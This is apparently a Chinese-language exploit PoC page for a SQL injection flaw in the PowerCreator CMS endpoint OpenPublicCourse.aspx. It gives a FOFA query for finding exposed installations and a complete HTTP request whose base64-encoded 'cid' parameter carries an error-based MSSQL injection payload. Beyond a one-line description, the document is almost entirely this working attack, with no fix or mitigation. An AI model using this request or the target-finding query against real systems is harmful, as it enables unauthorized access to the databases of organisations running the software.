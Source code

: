## PowerCreator接口OpenPublicCourse.aspx存在sql注入漏洞

PowerCreator接口 OpenPublicCourse.aspx存在sql注入漏洞。攻击者可利用该漏洞获取服务器上的信息。

## fofa

```yaml
app="PowerCreator-CMS"
```

![image](https://github.com/user-attachments/assets/fcc5c0c8-6a56-42a0-9aba-0d65b1d63a56)

## poc

```yaml
GET /OpenPublicCourse.aspx?cid=NSBhbmQgMT1zeXMuZm5fc3FsdmFyYmFzZXRvc3RyKEhhc2hCeXRlcygnTUQ1JywnMTIzNDU2JykpLS0%3D HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: ASP.NET_SessionId=l2wuj2tri5e554020jeezoyw; language=simpleChineses
Pragma: no-cache
Cache-Control: no-cache


```
